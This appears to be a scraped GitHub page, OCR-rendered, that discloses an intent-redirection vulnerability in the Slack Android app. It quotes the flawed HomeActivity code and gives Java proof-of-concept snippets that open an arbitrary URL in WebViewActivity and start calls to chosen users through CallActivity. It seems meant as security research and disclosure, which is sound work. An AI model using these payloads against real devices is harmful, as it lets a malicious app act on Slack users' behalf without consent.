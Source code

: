 # 组件-Slack
恶意和无权限的本地应用可以以非intent的方式与Slack安卓app中任意activity进行交互。

'''com.Slack.ui.HomeActivity
protected void onResume() {
    // ...
    handleIntentExtras(getIntent()); // attacker can pass anything to getIntent()
}

private void handleIntentExtras(Intent intent) {
    // ...
    Intent deeplinkIntent = (Intent) intent.getParcelableExtra("extra_deep_link_intent");
    //  ...
    if (!(deeplinkIntent == null || this.consumedDeeplinkIntent)) {
        // ...
        startActivity(deeplinkIntent); // danger! starting an intent provided by an attacker
        // ...
    }
    // ...
}
'''

'''PoC
Intent next = new Intent();
next.setClassName("com.Slack","com.Slack.ui.WebViewActivity");
next.putExtra("extra_url","http://ya.ru");
next.putExtra("extra_title","test");

Intent start = new Intent();
start.setClassName("com.Slack","com.Slack.ui.HomeActivity");
start.putExtra("extra_deep_link_intent",next),

startActivity(start);
'''

1. Making calls to real people
'''
    Intent next = new Intent("create");
    next.setClassName = ("com.Slack","com.Slack.ui.CallActivity");
    next.putExtra("EXTRA_CALL_NAME","Fake call name");
    next.putExtra("EXTRA_CALLER_ID", "U1RFBBPCP");
    next.putExtra("EXTRA_CHANNEL_NAME", "Fake channel name");
    next.putExtra("EXTRA_CHANNEL_ID", "D2B84FUFQ");
    next.putExtra("EXTRA_USERS_TO_INVITE", new ArrayList<String>(Arrays.asList(new String[] { "U2B81JBAL" })));

    Intent start = new Intent();
    start.setClassName("com.Slack", "com.Slack.ui.HomeActivity");
    start.putExtra("extra_deep_link_intent", next);

    startActivity(start);
'''